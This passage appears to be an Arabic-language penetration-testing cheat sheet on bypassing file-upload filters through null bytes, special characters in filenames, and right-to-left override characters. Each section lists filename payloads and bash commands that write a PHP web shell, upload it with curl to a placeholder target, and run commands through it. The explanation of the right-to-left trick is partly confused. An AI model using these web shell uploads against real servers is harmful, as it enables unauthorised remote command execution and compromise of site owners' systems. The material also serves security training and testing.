 ### 4. حقن البايت الفارغ (Null Byte Injection)
**شرح**: إضافة بايت فارغ (`%00` أو `\x00`) قبل امتداد مسموح لإنهاء اسم الملف عند الامتداد القابل للتنفيذ (مثل `.php%00.jpg`).
**كيف يعمل**: وظائف مثل `pathinfo()` في PHP القديمة قد تتوقف عند البايت الفارغ، مما يجعل الملف يُعامل كـ `.php`.
**متى يُستخدم؟**: على خوادم PHP القديمة (قبل 5.3.4) أو عند وجود معالجة ضعيفة للأسماء.
**المحاولات**:
- `shell.php%00.jpg`
- `shell.php\x00.png`
- `shell.php%00.gif`
- `shell.php\x00.pdf`
**الأوامر**:
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php%00.jpg
curl -X POST -F "file=@shell.php%00.jpg" http://<target>/upload
curl 'http://<target>/Uploads/shell.php?cmd=whoami'
```

### 5. الأحرف الخاصة في أسماء الملفات (Special Characters)
**شرح**: استخدام أحرف خاصة (مثل النقاط المتعددة، الفراغات، أو الأحرف الخاصة) لتجاوز فلاتر الامتدادات أو إرباك معالجة الأسماء.
**كيف يعمل**: الخوادم قد تزيل الأحرف الزائدة (مثل النقاط في Windows) أو تفشل في معالجة الفراغات، مما يؤدي إلى تنفيذ الملف.
**متى يُستخدم؟**: عند وجود فلاتر ضعيفة أو إعدادات خاطئة في الخادم.
**المحاولات**:
- **نقاط متعددة**: `shell.php......`
- **فراغات**: `shell.php%20`, `shell.php%0a`, `shell.php%0d%0a.jpg`
- **شرطات مائلة**: `shell.php/`, `shell.php.\`, `shell.j\sp`, `shell.j/sp`
- **أحرف خاصة متعددة**: `shell.php/./././.`
**الأوامر**:
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php%20
curl -X POST -F "file=@shell.php%20" http://<target>/upload
curl 'http://<target>/Uploads/shell.php?cmd=whoami'
```
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php%0d%0a.jpg
curl -X POST -F "file=@shell.php%0d%0a.jpg" http://<target>/upload
curl 'http://<target>/Uploads/shell.php?cmd=whoami'
```
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php/
curl -X POST -F "file=@shell.php/" http://<target>/upload
curl 'http://<target>/Uploads/shell.php?cmd=whoami'
```

### 6. التجاوز من اليمين إلى اليسار (Right-to-Left Override - RTLO)
**شرح**: استخدام حرف Unicode للتجاوز من اليمين إلى اليسار (`%E2%80%AE`) لعكس ترتيب اسم الملف، مما يجعل `shell.%E2%80%AEphp.jpg` يظهر كـ `shell.gpj.php`.
**كيف يعمل**: الخادم قد يعالج الملف كـ `.php` بسبب العكس، بينما يراه المستخدم كـ `.jpg`.
**متى يُستخدم؟**: عندما يتعامل الخادم مع أحرف Unicode بشكل غير صحيح.
**المحاولات**:
- `shell.%E2%80%AEphp.jpg`
- `shell.%E2%80%AEphp5.png`
- `shell.%E2%80%AEphp7.gif`
**الأوامر**:
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.%E2%80%AEphp.jpg
curl -X POST -F "file=@shell.%E2%80%AEphp.jpg" http://<target>/upload
curl 'http://<target>/Uploads/shell.php?cmd=whoami'
```

